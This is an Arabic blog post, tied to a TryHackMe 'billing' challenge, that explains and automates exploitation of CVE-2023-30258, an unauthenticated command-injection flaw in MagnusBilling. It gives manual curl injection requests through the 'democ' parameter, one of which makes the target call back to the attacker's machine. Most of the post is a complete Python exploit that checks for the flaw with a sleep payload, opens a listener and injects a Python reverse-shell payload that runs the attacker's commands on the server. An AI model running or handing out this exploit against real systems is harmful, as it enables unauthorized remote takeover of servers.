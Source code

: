 ```yaml
---
title: CVE-2023-30258
date: 2025-03-22
description: سكربت بايثون يستغل ثغرة في نظام magnus billing ويفتح لك اتصال عكسي للضحية
tags: ["Exploit Development"]
categories: "Exploit_Development"
---
```


بسم الله الرحمن الرحيم، هذه الثغرة موجودة في تحدي [billing](https://tryhackme.com/room/billing) في [tryhackme](https://tryhackme.com). الثغرة موجودة في نظام magnus billing وهذا النظام مفتوح المصدر ويقدم خدمة IP telephony، هذا التقرير من [rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)
يشرح الثغرة الموجودة. الثغرة تصنيفها unauthenticated RCE وهذا يعني أنه يمديك تنفذ أوامر على السيرفر بدون تسجيل دخول.

## استغلال الثغرة يدويا:

التقرير اللي من rapid7 يقول أن فيه سكربت تجريبي في lib/icepay/icepay.php/ هذا السكربت فيه دالة exec() وهذي الدالة تاخذ parameter موجود في طلب احضار (GET) باسم democ. خلينا نرسل طلب للنقظة ونشوف
```bash
curl http://< TARGET IP >/mbilling/lib/icepay/icepay.php\?democ=URL-encoded command inside backtiks `cmd`
```
```bash
curl http://10.10.139.224/mbilling/lib/icepay/icepay.php\?democ=%60curl%20http%3A%2F%2F10%2E9%2E0%2E238%3A8080%60
```
```bash
python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.139.224 - - [24/Mar/2025 14:29:59] "GET / HTTP/1.1" 200 -
```
ممتاز، الآن عرفنا كيف نستغل الثغرة، جاء وقت الأتمتة automation

## الأتمتة | automation

### الأساس
في البداية خلينا نستقبل معلومات من المستخدم، يمديني استعمل sys.argv[] لكني راح استعمل argparse عشان المرونة
```bash
import argparse
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The url of the target')
    parser.add_argument('-l', '--local_ip', help='the Ip of your machine', required=True)
    parser.add_argument('-p','--port', help='The port that the service is running on (default 80)', type=int, default=80)
    parser.add_argument('-e', '--entry', help='entry point for the application (default mbilling)', default='mbilling')
    args = parser.parse_args()
    url, port, entry, local_ip = args.url, args.port, args.entry, args.local_ip
    vulnerable_path = "lib/icepay/icepay.php"
    full_url = f'{url}:{port}/{entry}/{vulnerable_path}'
main()
```

### التحقق من وجود الثغرة

```bash
import requests
def check_if_vulnerable(url):
    print('[+] Checking if the target is vulnerable') 
    print('[+] Sending a sleep payload, waiting for 5 seconds delay')
    res = requests.get(f'{url}?democ=`sleep 5`') # نرسل طلب للسيرفر نخليه يسكن 5 ثواني
    if res.elapsed.total_seconds() > 4.8: # إذا كانت مدة الطلب أكثر من 4.8 ثانية يعني السيرفر متأثر
        return 1
    else:
        return 0
```

### نفتح سوكت من عندنا عشان الاتصال العكسي

```bash
def create_socket(): # نسوي السوكت
    try:
        global host
        global port
        global s
        host = ''
        port = 12657
        s = socket.socket()
    except socket.error as error:
        print(f'an error occured while creating a socket: \n{error}')


# Bind the socket to the port and wait for the connection
def bind_socket():
    try:
        global host
        global port
        global s
        print(f'[+] Binding socket to port: {port}')
        s.bind((host, port)) # نشبك السوكت على المدخل
        s.listen(5) # ننتظر الاتصال ونعطيه خمس محاولات
    except socket.error as error:
        print(f'[-] An error occured while binding {error}')


def socket_accept():
    conn, address = s.accept() # إذا جاء اتصال نقبله
    print(f'[+] Connection established | IP: {address[0]} | Port: {address[1]}')
    send_commands(conn)


def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit': # نقفل الإتصال quit = إذا كان الأمر اللي رسلته
            conn.close()
            s.close()
            sys.exit()
        if len(str.encode(cmd)) > 0: # إذا كتبنا أمر، راح يتشفر وينرسل إلى السيرفر
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), 'utf-8') # نستقبل 1024 بايت من البيانات 
            print(client_response, end='')
```

### نرسل حمولة الإتصال العكسي

```bash
def get_shell(url,ip):
    print('[+] Getting a reverse shell on the target')
    payload = f'''python3 -c 'import os,socket,subprocess # كان يمديني أرسل ملف للسيرفر بعدين انفذه، لكن قلت انفذ كود من التيرمنل مباشرة عشان التخفي 
s=socket.socket()
s.connect(("{ip}",12657))
while True:
    data = s.recv(1024)
    if data[:2].decode("utf-8") == "cd":
        os.chdir(data[3:].decode("utf-8"))
    if len(data) > 0:
        cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        output_bytes = cmd.stdout.read() + cmd.stderr.read()
        output_str = str(output_bytes, "utf-8")
        s.send(str.encode(output_str + str(os.getcwd() + "# ")))
s.close()' '''
    encoded_payload = urllib.parse.quote(payload) # urlencoding لازم نشفر الحمولة
    req = requests.get(f'{url}?democ=`{encoded_payload}`') # backtik نرسل طلب للسيرفر فيه الحمولة المشفرة ، لاتنسى ال
```

### الكود كامل

```bash
#!/bin/usr/python

import requests
import argparse
import sys
import socket
import threading
import urllib.parse

def check_if_vulnerable(url):
    print('[+] Checking if the target is vulnerable')
    print('[+] Sending a sleep payload, waiting for 5 seconds delay')
    res = requests.get(f'{url}?democ=`sleep 5`')
    if res.elapsed.total_seconds() > 4.8:
        return 1
    else:
        return 0


# Create a socket for the reverse shell
def create_socket():
    try:
        global host
        global port
        global s
        host = ''
        port = 12657
        s = socket.socket()
    except socket.error as error:
        print(f'an error occured while creating a socket: \n{error}')


# Bind the socket to the port and wait for the connection
def bind_socket():
    try:
        global host
        global port
        global s
        print(f'[+] Binding socket to port: {port}')
        s.bind((host, port))
        s.listen(5)
    except socket.error as error:
        print(f'[-] An error occured while binding {error}')


def socket_accept():
    conn, address = s.accept()
    print(f'[+] Connection established | IP: {address[0]} | Port: {address[1]}')
    send_commands(conn)


def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit':
            conn.close()
            s.close()
            sys.exit()
        if len(str.encode(cmd)) > 0:
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), 'utf-8')
            print(client_response, end='')

def get_shell(url,ip):
    print('[+] Getting a reverse shell on the target')
    payload = f'''python3 -c 'import os,socket,subprocess
    s=socket.socket()
    s.connect(("{ip}",12657))
    while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == "cd":
            os.chdir(data[3:].decode("utf-8"))
        if len(data) > 0:
            cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes, "utf-8")
            s.send(str.encode(output_str + str(os.getcwd() + "# ")))
    s.close()' '''
    encoded_payload = urllib.parse.quote(payload)
    req = requests.get(f'{url}?democ=`{encoded_payload}`')


def main():
    print('[!] PoC for CVE-2023-30258, this will give you a shell, although not the best one!')
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The url of the target')
    parser.add_argument('-l', '--local_ip', help='the Ip of your machine', required=True)
    parser.add_argument('-p','--port', help='The port that the service is running on (default 80)', type=int, default=80)
    parser.add_argument('-e', '--entry', help='entry point for the application', default='mbilling')
    args = parser.parse_args()
    url, port, entry, local_ip = args.url, args.port, args.entry, args.local_ip
    vulnerable_path = "lib/icepay/icepay.php"
    full_url = f'{url}:{port}/{entry}/{vulnerable_path}'
    check = check_if_vulnerable(full_url)
    if check != 1:
        print('[-] The target is NOT VULNERABLE, try running the script again')
        sys.exit()
    print('[+] The target is VULNERABLE')
    thread = threading.Thread(target=socket_accept, daemon=True)
    create_socket()
    bind_socket()
    thread.start() # ننتظر الاتصال، فتحت ثريد جديد شغالة عليه الدالة المسؤولة عن قبول الاتصال
    get_shell(full_url, local_ip) # لو ما فتحت ثريد الدالة هذي ماراح تتفعل
    thread.join()
main()
```
نلاحظ في آخر الدالة الرئيسية إني استخدمت الثريد، عشان لازم استمع للمدخل من جهازي وأنتظر أي اتصال، والدالة socket_accept() هي المسؤولة عن قبول الاتصال، لو ما فتحت ثريد جديد البرنامج راح يوقف عند الدالة هذي وينتظر الاتصال وأنا احتاج أرسل الحمولة حقتي في أثناء انتظاري للإتصال.
